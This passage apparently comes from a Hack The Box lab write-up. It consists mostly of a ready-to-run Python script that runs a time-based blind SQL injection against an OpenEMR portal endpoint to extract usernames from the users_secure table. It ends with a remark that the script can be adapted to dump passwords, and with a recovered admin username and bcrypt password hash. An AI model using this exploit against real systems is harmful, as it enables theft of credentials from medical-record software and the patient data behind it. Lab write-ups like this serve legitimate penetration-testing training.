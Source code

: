 ```bash
def handler(a,b):
    print('[+] Saliendo...')    
    sys.exit(1)
        
signal.signal(signal.SIGINT,handler)

url = 'http://hms.htb/portal/add_edit_event_user.php?userid=%s'
headers = {
    'Host': 'hms.htb:80',
    'database-Agent': 'python-requests/2.31.0',
    'Accept-Encoding': 'gzip, deflate',
    'Accept': '*/*',
    'Referer': 'http://hms.htb:80//portal/account/register.php',
    'Cookie': 'PHPSESSID=331e7vkkrjpgtmdenqkomdn68t'
}

def get_usernames():
    
    payload_template = "1 and if(SUBSTRING((SELECT username from users_secure where id=1),%s,1) LIKE binary '%s',sleep(15),1)"

    
    p1 = log.progress('Getting user')
    p2 = log.progress('Current user retrieved->')
    username=''
    for pos in range(37 ,500):
        
        
        for letter in string.printable:
            if letter == '%':
                continue
            
            payload = payload_template % (pos,letter)
            final_url = url % payload
            p1.status('Probando con -> %s.Username -> %s' % (payload,username))
            t1 = time.time()
            res = requests.get(url=final_url,headers=headers)
            t2 = time.time()
            if(t2-t1 > 14):
                
                username = username + letter
                break

        p2.status(username)

if __name__ == '__main__':
    get_usernames()
```

The script will dump all, but it can be easily modified to dump the passwords. After this, we end up with a user and credentials, `openemr_admin:$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.` .
